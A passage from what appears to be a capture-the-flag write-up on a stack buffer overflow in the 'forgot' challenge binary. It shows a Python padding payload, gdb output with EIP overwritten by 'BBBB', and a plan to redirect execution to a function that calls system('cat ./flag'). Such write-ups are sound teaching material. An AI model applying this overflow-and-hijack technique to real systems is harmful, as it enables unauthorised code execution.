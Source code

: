 This roughly translates to following C-code:

```c
snprintf(somebuffer, 0x32, "cat %s", "./flag");
// somebuffer = "cat ./flag"
system(somebuffer);
```

So this function calls `cat ./flag` - Great!

We just have to provide this function to `EIP` and we should see our flag!

After some fiddling around, we find that `EIP`'s offset is from `0x64` to `0x67`:

```bash
$ python -c 'print "A"*63+"BBBB"'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
gdb-peda$ r
Starting program: /home/vbox/pwn/tasks/backdoor-forgot/public/FORGOT/forgot 
What is your name?
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

                        Finite-State Automaton

I have implemented a robust FSA to validate email addresses
Throw a string at me and I will let you know if it is a valid email address

                                Cheers!

I should give you a pointer perhaps. Here: 8048654

Enter the string to be validate
> 
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x42424242 ('BBBB')
EBX: 0x24 ('$')
ECX: 0x20 (' ')
EDX: 0x4 
ESI: 0x0 
EDI: 0x0 
EBP: 0xffffd558 --> 0x0 
ESP: 0xffffd4cc --> 0x8048a67 (mov    eax,ds:0x804b060)
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffffd4cc --> 0x8048a67 (mov    eax,ds:0x804b060)
0004| 0xffffd4d0 --> 0xffffd4e0 ('A' <repeats 32 times>, "BBBB")
0008| 0xffffd4d4 --> 0xffffd4e0 ('A' <repeats 32 times>, "BBBB")
0012| 0xffffd4d8 --> 0xf7fb8c20 --> 0xfbad2288 
0016| 0xffffd4dc --> 0x0 
0020| 0xffffd4e0 ('A' <repeats 32 times>, "BBBB")
0024| 0xffffd4e4 ('A' <repeats 28 times>, "BBBB")
0028| 0xffffd4e8 ('A' <repeats 24 times>, "BBBB")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```
